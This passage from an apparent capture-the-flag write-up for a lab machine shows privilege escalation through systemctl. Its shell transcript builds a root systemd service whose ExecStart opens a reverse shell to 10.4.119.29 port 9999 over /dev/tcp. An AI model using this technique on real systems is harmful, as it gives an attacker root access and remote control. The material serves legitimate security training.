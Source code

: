 <br />
Check the <a href="https://gtfobins.github.io/gtfobins/systemctl/">gtfobins</a> for systemctl and notice the entry.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/systemctl.png" title="GTFOBins" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Couldn't get the GTFOBins process to work.  So, back to the Google and found this gist from <a href="https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740">A1vinSmith</a>.  Create the root.service.

{% raw %}
```bash 
www-data@vulnuniversity:/dev/shm$ echo '[Unit]' > root.service
echo '[Unit]' > root.service
www-data@vulnuniversity:/dev/shm$ echo 'Description=roooooooooot' >> root.service
<v/shm$ echo 'Description=roooooooooot' >> root.service                      
www-data@vulnuniversity:/dev/shm$ echo '' >> root.service
echo '' >> root.service
www-data@vulnuniversity:/dev/shm$ echo '[Service]' >> root.service
echo '[Service]' >> root.service
www-data@vulnuniversity:/dev/shm$ echo 'Type=simple' >> root.service
echo 'Type=simple' >> root.service
www-data@vulnuniversity:/dev/shm$ echo 'User=root' >> root.service
echo 'User=root' >> root.service
www-data@vulnuniversity:/dev/shm$ echo "ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.119.29/9999 0>&1'" >> root.service     
www-data@vulnuniversity:/dev/shm$ echo '' >> root.service
echo '' >> root.service
www-data@vulnuniversity:/dev/shm$ echo '[Install]' >> root.service
echo '[Install]' >> root.service
www-data@vulnuniversity:/dev/shm$ echo 'WantedBy=multi-user.target' >> root.service
<v/shm$ echo 'WantedBy=multi-user.target' >> root.service                    
www-data@vulnuniversity:/dev/shm$ cat root.service
cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.119.29/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
{% endraw %}
